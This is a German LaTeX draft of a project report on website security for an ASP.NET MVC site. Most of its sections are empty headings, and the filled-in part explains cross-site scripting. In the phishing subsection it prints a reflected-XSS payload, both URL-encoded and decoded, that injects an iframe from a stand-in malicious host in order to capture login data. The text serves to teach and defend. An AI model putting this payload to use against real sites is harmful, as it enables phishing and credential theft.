
\section{Webseite}
\label{sec:Webseite}
\subsection{Security}
\label{sec:Security}
In diesem Abschnitt beschäftigen wir uns mit der Security der Webseite.
Wir behandeln wie man das sichere einloggen in eine Webseite gewähren kann, 
wie man sich vor XSS/CSRF schützen kann, wie man verhindert das eine SQL Injection
möglich ist und wie man Passwörter speichert. Dazu werden wir einige Code Beispiele anführen.

\subsubsection{Login Handling}
\label{sec:Login}
\subsubsection{Two-Factor-Auth}
\label{sec:tfa}
\subsubsection{Path-Traversal}
\label{sec:Path-Traversal}
\subsubsection{XSS Protection}
\label{sec:xss}
\subsubsection{Allgemeines über XSS}
XSS steht für Cross-Site-Scripting und ist eine Security schwäche, welche es ausnutzt das eine Webadmin nicht davon ausgeht das eine gewisse Eingabe getätigt wird. Meist nutzt ein Hacker diese Schwäche um einen bösartigen Code auszuführen, zu Beispielen werden wir später noch kommen. Trotz dem hohen Bekanntheitsgrad von XSS und findet man Cross-Site-Scripting immer noch aus der OWASP Top 10, welche die häufigsten Security Vulnerabilities Jahr für Jahr auflistet. Bei dem ausnutzen von XSS greift man sein 'Opfer' nicht direkt an, sondern man nutzt diese Schwachstelle, um bspw. ein bösartiges Skript zu platzieren, welches dann von einem nichts ahnenden User aufgerufen wird. 
\subsubsection{XSS Targets:}
\begin{enumerate}
\item Javascript (wobei Javascript das beliebteste ist) 
\item VBScript 
\item ActiveX
\item Flash
\end{enumerate}
\subsubsection{Warum ist Javascript so beliebt?}
Der Grund hierfür ist das Javascript quasi eine fundamentale Einheit einer Webseite ist. Man wird kaum eine Webseite finden, welche kein Javascript verwendet.
\subsubsection{Beliebte Angriffsvektoren}
\begin{enumerate}
\item Session Hijacking
\item Website-Defacements 
\item Phishing
\end{enumerate}
\subsubsection{Session Hijacking}
Beim Session Hijacking werden, wie es einem der Name schon verrät, Sessions von Webseiten übernommen. Meist bemerkt ein User gar nicht das seine Session von einem Angreifer übernommen worden ist. Das Hauptziel ist dabei das überwachen von Aktivitäten bzw. Datendiebstahl. Sehr problematisch wird es, wenn eine Admin Session zugänglich wird und der Angreifer so auf einen Admin Account zugreifen kann. Bei so einem Vorfall hat der Angreifer dann alle Rechte und kann sich so zusagen austoben, wie er will. Und hier reicht schon eine kleine XSS Vulnerability aus um dies zu bewerkstelligen. 
\subsubsection{Website-Defacements}
Website-Defacements hat etwas von digitalem Graffiti. Hier wird XSS genutzt um sich den Zugriff auf die Webseite zu verschaffen und sie dann optisch zu verändern. 
\subsubsection{Phishing}
Im Prinzip ist Phishing die Intention mit Fake Webseiten oder Emails an vertrauliche Daten eines Users zu kommen. Ein Beispiel wäre mit einem gefälschten Facebook Login an die Login Daten eines Benutzers zu kommen. 
\\Doch wie hängt das mit XSS zusammen?\\Bei einer Url hat man sehr oft eine Abfragezeichenfolge. Diese werden benutzt um beliebige Werte zu übergeben. Beispielweise würde die Url 
\url{ http://www.Sehr-Sichere-Webseite.com/program?value} den Parameter value and das Programm schicken.Und hier kommt Cross-Site-Scripting ins Spiel und man könnte wieder etwas bösartiges übergeben.\\Ein Angreifer könnte jetzt diese Schwäche ausnutzen um zu eine anderen Website weiterzuleiten und selbst noch etwas hinzufügen, beispielsweise der Abfrage von Login Daten. \\Beispiel\\
\url{"http://www.EineFinanzseite.com/?q=
%3Cscript%3Edocument.write%28%22%3Ciframe+src%3D%27
http%3A%2F%2Fwww.BoeseSeite.com%27+
FRAMEBORDER%3D%270%27+WIDTH%3D%27800%27+HEIGHT%3D%27640%27
+scrolling%3D%27auto%27%3E%3C%2Fiframe%3E%22%29%3C%2Fscript%3E&...=...&... "}
\\
Wobei die Modulo Buchstaben in Hexadezimal folgendes darstellen
\\ 3C : <
\\ 3E : >
\\ 28 : (
\\ 22 : "
\\ 3D : =
\\ 27 : '
\\ 3A : :
\\ 2F : /
\\ 29 : )\\
Es ergibt sich daraus \\
\url{http://www.EineFinanzseite.com/?q=<script>document.write("<iframe src='http://www.BoeseSeite.com' FRAMEBORDER='0' WIDTH='800' HEIGHT='640' scrolling='auto'></iframe>")</script>&...=...&...">}
\\Beim Ausführen wird dann HTML Code eingefügt 
\\
<iframe src='http://www.BoeseSeite.com' FRAMEBORDER='0' WIDTH='800' HEIGHT='640' scrolling='auto'></iframe>
\\
Diese IFrame beinhaltet jetzt Code von der Bösen Seite und ermöglicht dem Angreifen eingegebene Daten vom User zu sehen. 
\subsubsection{Wie gewährleisten wir XSS Protection}
Die Webseite beschränkt sich generell auf wenige Eingabe fenster wo eine Standard XSS versucht werden könnte. Alle diese Eingaben erlauben keine Tags oder Sonderzeichen. Auch Url Parameter können nie direkt gesendet werden und somit fällt auch der URL Faktor weg.
\\
Alle Möglichen Eingabefelder
\\

\includegraphics[width=20cm, height=10cm]{Webseite_XSS_img1}

\includegraphics[width=20cm, height=10cm]{Webseite_XSS_img2}

\includegraphics[width=14cm, height=6cm]{Webseite_XSS_img3}
\\
In den URLS werden durch MVC und passende Implementierung nie Parameter gesendet bei denen man XSS Code einfügen könnte.\\
Dadurch hat unsere Webseite eine Funktionierende XSS Protection
\subsubsection{Cross-Site-Tracing}
\subsubsection{XSRF/CSRF Protection}
\label{sec:csrf}
\subsubsection{Sql-Injection Protection}
\label{sec:sqli}
\subsubsection{Password Hashes}
\label{sec:hash}
\subsection{ASP.NET MVC}
In diesem Abschnitt beschäftigen wir uns mit ASP.NET MVC mit der unsere Webseite aufgebaut ist. Wir besprechen die Grundindention von MVC und was MVC ist. Wie die Webseite aufgebaut wurde werden wir anhand Code auszügen zeigen. Die beim MVC bekannten Views Controllers und Services werden aufgezeigt und erklärt. Ebenfalls wird behandelt wie die Links zu den Kalendern erzeugt und zur Verfügung gestellt werden. 

\label{sec:MVC}
\subsubsection{Allgemeines MVC}
\label{sec:allgemein}

\subsubsection{Aufbau der Webseite }
\label{sec:aufbau}
\subsubsection{Link generation}
\label{sec:link}
\subsubsection{Controller}
\label{sec:Controller}
\subsubsection{Views}
\label{sec:Views}
\subsubsection{Services}
\label{sec:Services}
\subsubsection{User Datenbank}
\label{sec:UserDB}
\begin{itemize}
	\item Salt
\end{itemize}
\label{sec:salt}
